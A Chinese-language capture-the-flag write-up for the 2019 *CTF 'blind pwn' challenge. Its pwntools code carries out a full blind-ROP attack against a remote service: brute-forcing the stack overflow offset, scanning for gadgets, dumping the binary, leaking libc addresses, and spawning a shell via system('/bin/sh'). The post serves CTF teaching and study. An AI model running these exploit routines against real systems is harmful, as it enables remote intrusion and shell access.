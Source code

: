 ```yaml
---
layout: post
title:  "starctf blind pwn"
categories: ctf pwn
tags: starctf brop pwn
author: ble55ing
---
```


* content
{:toc}

## starctf blind pwn writeup

blind pwn，顾名思义，没给源文件的题目

首先看一下程序的执行情况，程序输出welcome，然后接收一个字符串，再输出Goodbye。

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/first.png)

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/try.png)

这题没有printf，所以应该是没有格式化字符串的，按照这种题目的情况，应该是一个很简单的程序，有一个栈溢出的漏洞。

## 一、填充偏移

第一步，构造padding，找到偏移。

```
def getbuflength():
    i = 0
    while 1:
        try:
            sh = remote('34.92.37.22', 10000)
            sh.recvuntil('Welcome to this blind pwn!\n')
            sh.send(i * 'a')
            rev = sh.recv()
            sh.close()
            if not rev.startswith('Goodbye!'):
                return i - 1
            else:
                i += 1
        except EOFError:
            sh.close()
            return i - 1
```

## 二、进入循环

第二步，找到一个能使程序进入循环的地方（main函数开始地址）

main函数开始地址的特征比较明显，就是由多个能够正常执行而且显示welcome的地方。

```
def get_main_addr(length):
    addr = 0x400000
    while 1:
        if addr %0x80==0:
            print hex(addr)
        try:
            sh = remote('34.92.37.22', 10000)
            sh.recvuntil('pwn!\n')
            payload = 'a' * length + p64(addr)
            sh.sendline(payload)
            content = sh.recv()
            print content
            sh.close()
            return addr
        except Exception:
            addr += 1
            sh.close()
```

## 三、找到输出函数

已经控制了流程，然后就需要找到方便rop的gadget，16进制程序基本都有的如下所示：

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/brop_gadget.png)

```
def get_brop_gadget(length, main_addr, addr):
    try:
        sh = remote('34.92.37.22', 10000)
        sh.recvuntil('pwn!\n')
        payload = 'a' * length + p64(addr) + p64(0) * 6 + p64(
            main_addr) + p64(0) * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        print content
        if not content.startswith('Welcome'):
            return False
        return True
    except Exception:
        sh.close()
        return False
        
def check_brop_gadget(length, addr):
    try:
        sh = remote('34.92.37.22', 10000)
        sh.recvuntil('pwn!\n')
        payload = 'a' * length + p64(addr) + 'a' * 8 * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        return False
    except Exception:
        sh.close()
        return True


def find_brop_gadget(length, main_addr):
    addr = 0x400000
    while 1:
        if addr%0x80==1:
            print hex(addr)
        if get_brop_gadget(length, main_addr, addr):
            if check_brop_gadget(length, addr):
                return addr
        addr += 1
```

找到brop gadget之后就应该是使用rdi，根据0x400000的回显结果再去找put函数了。然而找了半天没找到。然后再不停的尝试中找到了当有两个参数输入 的时候，是可以正常获得地址的数据的，于是就使用rsi_rdi_ret的gadget来放两个参数，获得程序的信息（其实是相当于把整个程序相当于都打了出来）。打印的时候注意到是一次打出0x100大小的长度，做完证实应该是write函数（当时并不知道）。

```
def leak(length, rsi_rdi_ret, puts_plt, leak_addr, mainaddr):
    sh = remote('34.92.37.22', 10000)
    payload = 'a' * length + p64(rsi_rdi_ret) + p64(leak_addr) + p64(leak_addr)+ p64(
        puts_plt) + p64(mainaddr)
    sh.recvuntil('pwn!\n')
    sh.sendline(payload)
    try:
        data = sh.recv()
        sh.close()
        try:
            data = data[:data.index("\nWelcome")]
        except Exception:
            data = data
        if data == "":
            data = '\x00'
        return data
    except Exception:
        sh.close()
        return None


def leakfunction(length, rdi_ret, puts_plt, mainaddr):
    addr = 0x400000
    result = ""
    while addr < 0x401000:
        print hex(addr)
        data = leak(length, rdi_ret, puts_plt, addr, mainaddr)
        if data is None:
            continue
        else:
            result += data
            addr += len(data)
    with open('code', 'wb') as f:
        f.write(result)

```

然后就获得了这个程序的一部分，将code用ida使用binary格式加载，然后Edit->segment->rebase program更改加载基址，按c就能把16进制串转化为反汇编代码。然后找到打印函数的位置，可以看到它的got表位置，打印出来其中的地址是2b0结尾（然而不知道是什么函数还是没有办法）。

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/write.png)

所以还是再分析分析还有啥别的函数没有，由于函数在读入字符的时候，\x00无所谓，\n才结束，所以猜测其为read函数，分析代码，找到其got表地址，为0x601028得到的其地址为。

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/read1.png)

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/read2.png)

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/read3.png)

然后把其中的地址打出来，然后找到Libc-Search找到对应的库，然后system(“/bin/sh”)拿到shell

![](https://raw.githubusercontent.com/ble55ing/PicGo/master/final.png)

这中间还有一个小bug，Libc-Search找库的时间太长了程序都alarm结束了，所以中间还去找到了那个对应库然后再回来的

```
sh = remote('34.92.37.22', 10000)
sh.recvuntil('pwn!\n')
payload = 'a' * length + p64(rsi_rdi_ret) + p64(read_got) + p64(read_got)+ p64(puts_plt) + p64(
    mainaddr)
sh.sendline(payload)
data = sh.recvuntil('Welcome', drop=True)
print data
puts_addr = u64(data[:8].ljust(8, '\x00'))
print hex(puts_addr)
#libc = LibcSearcher('read', puts_addr)
libc_base = puts_addr - libc.symbols['read']
system_addr = libc_base + libc.symbols['system']
print system_addr
binsh_addr =libc_base +libc.search('/bin/sh').next()
#binsh_addr = libc_base + libc.dump('str_bin_sh')
payload = 'a' * length + p64(rdi_ret) + p64(binsh_addr) + p64(
    system_addr) + p64(mainaddr)
sh.sendline(payload)
sh.interactive()
```

另附解题wp的github[https://github.com/ble55ing/ctfpwn/blob/master/2019starctf/blind_pwn.py](https://github.com/ble55ing/ctfpwn/blob/master/2019starctf/blind_pwn.py)
